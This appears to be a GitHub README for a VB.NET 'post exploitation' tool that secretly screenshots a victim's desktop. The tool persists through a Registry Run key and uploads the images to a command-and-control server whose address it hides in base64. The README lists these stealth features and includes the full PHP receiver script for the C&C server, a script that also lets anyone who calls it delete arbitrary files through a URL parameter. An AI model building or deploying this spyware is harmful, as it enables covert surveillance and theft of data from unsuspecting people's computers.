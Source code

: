 <p align="center">
  <img src="https://i.ibb.co/B4WbGyq/Screenshot-11.png">  
</p>
<p align="center">
<b> Silent Screenshot Capture | Post Exploitation Tool | VB.NET </b>
</p>
<p align="center">
 A simple payload to take the screenshot of victims desktop and upload it to the C&C.
</p>

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs
 - Deletes the screenshot from disk after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new [PHP](https://en.wikipedia.org/wiki/PHP) file and put below code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
 - Open the project in Visual Studio and edit the below variable in source code 
```
Dim server As String = BaseDecode1("your server address here in base64 encoded") 
```


